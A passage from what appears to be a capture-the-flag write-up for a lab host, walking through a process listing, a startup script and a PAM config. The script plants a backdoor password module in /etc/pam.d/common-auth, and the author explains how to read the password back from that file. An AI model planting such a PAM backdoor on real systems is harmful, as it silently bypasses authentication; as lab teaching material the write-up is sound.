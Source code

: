 ```bash
root          15  0.0  0.1   8520  4452 ?        Ss   10:20   0:00 /usr/sbin/apache2 -k start
root          80  0.0  0.1  15856  6752 ?        S    10:20   0:00 /usr/sbin/sshd -D
root          87  0.0  0.2  16808  8104 ?        Ss   10:22   0:00 sshd: bob [priv]
bob          109  0.0  0.0   3088   892 pts/0    S+   10:23   0:00 grep root
```
Here run_services.sh looks interesting, since it is a shell script, we take a look at the contents of run_services
```bash
bob@vulnhost:~$ cat /bin/run_services.sh                                                                
#!/bin/bash

echo "$FLAG" > /root/flag
chown root:root /root/flag
chmod 0600 /root/flag

ENV="env -u FLAG"

$ENV apache2ctl start

# Initialise backdoor password
password=$(dd if=/dev/urandom of=/dev/stdout bs=30k count=1 | md5sum | cut -f1 -d' ')

sed -i "s/MYPASSWORD/$password/" /etc/pam.d/common-auth

mkdir -p /run/sshd
chmod 0600 /run/sshd
echo "Starting sshd"
$ENV /usr/sbin/sshd -D
```
The most interesting part here the is setting of password.
dd copys a random input from urandom, to stdout, md5sum hashes it
and cut -f1 -d' ' cuts all output after ' ', which in this case is everything after the hash.
sed -i then copies it to /etc/pam.d/common-auth.
Thus we can retrieve the hash from /etc/pam.d/common-auth.
```
#
# /etc/pam.d/common-auth - authentication settings common to all services
#
# This file is included from other service-specific PAM config files,
# and should contain a list of the authentication modules that define
# the central authentication scheme for use on the system
# (e.g., /etc/shadow, LDAP, Kerberos, etc.).  The default is to use the
# traditional Unix authentication mechanisms.
#
# As of pam 1.0.1-6, this file is managed by pam-auth-update by default.
# To take advantage of this, it is recommended that you configure any
# local modules either before or after the default block, and use
# pam-auth-update to manage selection of other modules.  See
# pam-auth-update(8) for details.

# here are the per-package modules (the "Primary" block)
auth	[success=2 default=ignore]	pam_unix.so nullok_secure

# SNEAKY BACKDOOR HACXXX
auth    [success=1 default=ignore]  pam_backdoor.so password=542e1d149582b187bd025582db37156c
# 1337 HACKER WAS HERE

# here's the fallback if no module succeeds
auth	requisite			pam_deny.so

# prime the stack with a positive return value if there isn't one already;
# this avoids us returning an error just because nothing sets a success code
# since the modules above will each just jump around
```